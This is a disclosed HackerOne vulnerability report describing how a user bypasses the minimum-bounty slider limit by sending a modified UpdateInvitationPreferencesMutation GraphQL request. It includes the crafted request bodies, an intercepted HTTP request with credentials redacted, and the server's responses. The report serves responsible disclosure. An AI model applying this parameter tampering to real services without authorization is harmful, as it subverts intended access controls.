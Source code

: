 # Hacker can bypass minimum bounty amount restrictions in "invitation preferences" setting via UpdateInvitationPreferencesMutation GraphQL operation

## Report Details
- **Report ID**: 981036
- **URL**: https://hackerone.com/reports/981036
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-09-13T07:22:47.775Z
- **Disclosed**: 2021-09-20T13:20:06.264Z

## Reporter
- **Username**: frozensolid
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**
Hacker can bypass minimum bounty amount restrictions in invitation preferences due to trusted client-side input to `UpdateInvitationPreferencesMutation` GraphQL operation

**Description:**
The new "Bounty Preferences" feature at https://hackerone.com/settings/preferences allows the hacker to set a minimum critical bounty size for their future private program invitations. 
The largest minimum bounty a hacker can select using the slider in the user interface is based on their average bounty payout. 
I've submitted a few low severity/low payout issues lately so my average is dropping like a stone. I was excited to see if there was a way around this. 

A hacker can bypass this minimum bounty slider by sending a crafted POST to the `UpdateInvitationPreferencesMutation` GraphQL operation at https://hackerone.com/graphql

```
{"operationName":"UpdateInvitationPreferencesMutation",
  "variables":
    {"min_bounty":1337},
"query":"mutation UpdateInvitationPreferencesMutation($receive_invites: Boolean, $bounty_programs_only: Boolean, $exclude_crypto_programs: Boolean, $min_bounty: Float, $time_off_ends_at: DateTime) {\n  updateInvitationPreferences(input: {receive_invites: $receive_invites, bounty_programs_only: $bounty_programs_only, exclude_crypto_programs: $exclude_crypto_programs, min_bounty: $min_bounty, time_off_ends_at: $time_off_ends_at}) {\n    me {\n      id\n      hacker_invitations_profile {\n        id\n        receive_invites\n        bounty_programs_only\n        min_bounty\n        exclude_crypto_programs\n        active_time_off\n        time_off_ends_at\n        __typename\n      }\n      __typename\n    }\n    was_successful\n    __typename\n  }\n}\n"}
```

### Steps To Reproduce

1. Start your favorite interception proxy (I used Portswigger BurpSuite)
2. Login to a hackerone account (hacker persona)
3. visit https://hackerone.com/settings/preferences
4. Toggle on "Only invite me for programs that award a Bounty"
5. set slider to an initial value (for later comparison)
6. Enable request interception in the proxy
7. set slider to a different value 
8. the intercepted request will look like this: 
    ```
    POST /graphql HTTP/1.1
    Host: hackerone.com
    Connection: close
    Content-Length: 848
    accept: */*
    X-Auth-Token: ████████████████████████████████████
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
    content-type: application/json
    Origin: https://hackerone.com
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: https://hackerone.com/settings/preferences
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: ███████████████████████████████████
    
    {"operationName":"UpdateInvitationPreferencesMutation",
      "variables":{
        "min_bounty":1337
      },
      "query":"mutation UpdateInvitationPreferencesMutation($receive_invites: Boolean, $bounty_programs_only: Boolean, $exclude_crypto_programs: Boolean, $min_bounty: Float, $time_off_ends_at: DateTime) {\n  updateInvitationPreferences(input: {receive_invites: $receive_invites, bounty_programs_only: $bounty_programs_only, exclude_crypto_programs: $exclude_crypto_programs, min_bounty: $min_bounty, time_off_ends_at: $time_off_ends_at}) {\n    me {\n      id\n      hacker_invitations_profile {\n        id\n        receive_invites\n        bounty_programs_only\n        min_bounty\n        exclude_crypto_programs\n        active_time_off\n        time_off_ends_at\n        __typename\n      }\n      __typename\n    }\n    was_successful\n    __typename\n  }\n}\n"
    }
    ```
9. Update the `min_bounty` variable to the desired minimum bounty. on my account I set to `7000`
    ```
    {"operationName":"UpdateInvitationPreferencesMutation",
      "variables":{
        "min_bounty":7000
      },
      "query":"mutation UpdateInvitationPreferencesMutation($receive_invites: Boolean, $bounty_programs_only: Boolean, $exclude_crypto_programs: Boolean, $min_bounty: Float, $time_off_ends_at: DateTime) {\n  updateInvitationPreferences(input: {receive_invites: $receive_invites, bounty_programs_only: $bounty_programs_only, exclude_crypto_programs: $exclude_crypto_programs, min_bounty: $min_bounty, time_off_ends_at: $time_off_ends_at}) {\n    me {\n      id\n      hacker_invitations_profile {\n        id\n        receive_invites\n        bounty_programs_only\n        min_bounty\n        exclude_crypto_programs\n        active_time_off\n        time_off_ends_at\n        __typename\n      }\n      __typename\n    }\n    was_successful\n    __typename\n  }\n}\n"
    }
    ```

10. Now submit your crafted POST request. my request received a 200 OK with `"was_successful":true` with the following result:
    ```
    {
       "data":{
          "updateInvitationPreferences":{
             "me":{
                "id":"██████",
                "hacker_invitations_profile":{
                   "id":"██████",
                   "receive_invites":true,
                   "bounty_programs_only":true,
                   "min_bounty":7000.0,
                   "exclude_crypto_programs":true,
                   "active_time_off":false,
                   "time_off_ends_at":null,
                   "__typename":"HackerInvitationsProfile"
                },
                "__typename":"User"
             },
             "was_successful":true,
             "__typename":"UpdateInvitationPreferencesPayload"
          }
       }
    }
    ```
    ████
11. to further verify, I queried GraphQL again with the `UserInvitationSettingsQuery` operation and received back 
    ```
    {
       "data":{
          "me":{
             "id":███████████████████████████████████,
             "hacker_invitations_profile":{
                "id":███████████████████████████████████,
                "receive_invites":true,
                "bounty_programs_only":true,
                "min_bounty":7000.0,
                "exclude_crypto_programs":true,
                "time_off_ends_at":null,
                "active_time_off":false,
                "__typename":"HackerInvitationsProfile"
             },
             "bounties":{
                "average_amount":600.625,
                "__typename":"BountyConnection"
             },
             "__typename":"User"
          }
       }
    }
    ```
    ██████

12. await your next private program invitation with a higher critical bounty payout.


### Optional: Your Environment (Browser version, Device, etc)

 * Chrome/ Chromium 85.0.4183.83 (Official Build) (64-bit) (Mac OS 10.15.6)

### Optional: Supporting Material/References (Screenshots)
Updating the minimum critical bounty payout.
███████

Querying the current set minimum bounty 
███

### Optional: Did you use [recon data made available by HackerOne](https://github.com/Hacker0x01/helpful-recon-data) to find this vulnerability?
no

## Impact

Hacker can further influence which private programs they are invited to outside of the intended design of the minimum critical bounty feature.

## Attachments
No attachments
